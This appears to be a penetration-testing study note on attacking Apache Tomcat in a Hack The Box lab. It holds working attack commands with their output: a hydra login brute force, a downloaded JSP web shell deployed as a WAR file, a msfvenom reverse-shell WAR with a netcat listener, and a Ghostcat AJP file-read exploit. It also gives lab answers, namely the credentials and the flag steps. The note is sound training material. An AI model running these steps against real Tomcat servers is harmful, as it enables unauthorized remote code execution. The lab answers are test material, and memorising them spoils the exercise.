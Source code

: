 ```yaml
---
description: >-
  If we can access the /manager or /host-manager endpoints, we can likely
  achieve remote code execution on the Tomcat server
---
```


# Attacking Tomcat

## Tomcat Manager - Login Brute Force

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

{% embed url="https://github.com/oppsec/tomcter" %}
This seems interesting to try
{% endembed %}

Tomcat uses basic auth where credential pair are base64 encoded and placed into Authorization header&#x20;

## Tomcat Manager - WAR File Upload

* Many Tomcat installations provide a GUI interface to manage the application
* The interface is available at `/manager/html` by default
* Only `manager-gui` role are allowed to access.
* A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/tomcat_mgr.png" alt=""><figcaption><p>http://web01.inlanefreight.local:8180/manager/html</p></figcaption></figure>

* A WAR file can be created using the zip utility.
* A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

```shell-session
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```

Click on `Browse` to select the .war file and then click on `Deploy`.

![image](https://academy.hackthebox.com/storage/modules/113/mgr\_deploy.png)

<figure><img src="https://academy.hackthebox.com/storage/modules/113/war_deployed.png" alt=""><figcaption><p>/backup appeared in table</p></figcaption></figure>

click on `backup`, we will get redirected to `http://web01.inlanefreight.local:8180/backup/` and get a `404 Not Found` error.

specify the `cmd.jsp` file in the URL as well, this will give us a webshell that we can use to run commands on Tomcat server.

```shell-session
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```

> undeploy -> to clean up the webshell

**`msfvenom` to generate a malicious WAR file**

```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```

```shell-session
nc -lnvp 4443

listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224


id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## CVE-2020-1938 : Ghostcat

* Tomcat was found to be vulnerable to an unauthenticated LFI
* Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable
* caused by a misconfiguration in the AJP protocol used by Tomcat
* AJP service is usually running at port 8009 on a Tomcat server

```shell-session
nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

scan confirms that ports 8080 and 8009 are open

* PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi).

```shell-session
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

In some Tomcat installs, we may be able to access sensitive data within the WEB-INF file.

## Assessment

**Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?**

```
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

* tomcat

**What is the password?**

* root

**Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat\_flag.txt**

```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```

browse > deploy

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>/backup</p></figcaption></figure>


